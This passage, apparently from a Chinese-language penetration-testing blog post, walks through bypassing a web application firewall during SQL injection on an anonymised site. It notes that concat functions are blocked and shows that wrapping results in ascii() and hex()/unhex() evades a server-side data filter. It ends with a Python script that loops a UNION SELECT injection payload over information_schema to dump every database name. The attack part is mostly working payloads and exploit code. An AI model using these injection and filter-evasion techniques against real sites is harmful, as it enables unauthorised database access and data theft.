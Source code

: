 ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvFzBGHustxgZPHGg6Fz1l2AOBTt3eUUtJIOnsgVGkXB7eeiaibPFtXMMw/640?wx_fmt=png)

尝试内敛注释 `/*!group_concat()*/` 也被拦截  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvkoKb3o3EtpcnEadiciaRcGKicLXuGjvM4OEpykb3f3DoABrn0oicvlGOKQ/640?wx_fmt=png)

拼接字符串相关的 `concat()`函数、`concat_ws()`函数都被拦截。  

好吧，那就不直接获取全部返回值了，老老实实加上 limit 一个一个来吧  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvwvkGBm30hwiaV7uWlFXl5s3Stg9tVT9m3qHVib62EKNQM7qmRS7McT6g/640?wx_fmt=png)

没有被 waf 拦截，但是没有回显数据  

问题来了，version()、user() 这些可以正常返回到前端页面，说明这个注入点是可以回显的，但是具体查询表数据的时候不展示，很有可能是后台代码对返回到前端的数据做了过滤，涉及敏感库表信息的就返回空值。

因此就先不花精力去尝试布尔盲注、时间盲注、NDSlog 盲注等浪费时间的操作。先将查询的数据做一次变形，看是否能绕过后台匹配逻辑。

##### ascii()

将查询的数据放到 ascii() 方法中，waf 没有拦截，可以正常返回数据  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvPjwvTlRL461G3UgyJU05CfibIrOw2STjyRVhiaFnLic6GMjLvicGSxV7qg/640?wx_fmt=png)

ascii() 方法是返回字符串的第一个字符的 ascii 值，所以这里查询到的数据库名第一个字母是 `h`。  
可以写个简单的脚本或者用 burpsuite 替换 limit 的值挨个查询剩余数据库名的每个字符串 ascii 值再转换回字符串  

##### hex()

将查询的数据放到 hex() 方法中，waf 也没有拦截，同样可以正常返回数据  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSviatiaOR6f9xYq663nrsmBGHh0bXZNHZkNl0sxaDpOrmeMncJtIIQf58w/640?wx_fmt=png)

比 ascii() 更方便，可以将整条数据都进行 hex 编码而不只是第一个字符，再通过 unhex() 方法转换回字符串  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvr3XSX5uIwh2dGE0oe7wfyJjVCTBuvFjq7ZOU6AmgqK6jricWKCmFM7Q/640?wx_fmt=png)

接下来就可以手动 + burpsuit 获取一个个表名和表内数据了  

第二层云 waf
--------

burp 获取的数据不够直观，用 python 重新写一下

##### 获取全部数据库名 ↓

```
import time,requests,lxml
from bs4 import BeautifulSoup

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36 Edg/81.0.416.50'
}

for i in range(0,10000):
    url = 'http://www.xxx.com/xx.php?id=296+and+1=2+union+select+1,2,3,4,5,6,7,unhex(hex(schema_name)),9,10,11+from+information_schema.schemata+limit+%d,1--+' % i
    r = requests.get(url,headers=headers)
    soup = BeautifulSoup(r.text,'lxml')
    result = soup.select('div.main_word > div.main_cont > div.new_txt')[0].text.strip()
    if result != '':
        print(result)
    else:
        print('所有库查询完毕'+'\n'+'-'*30)
        break
```
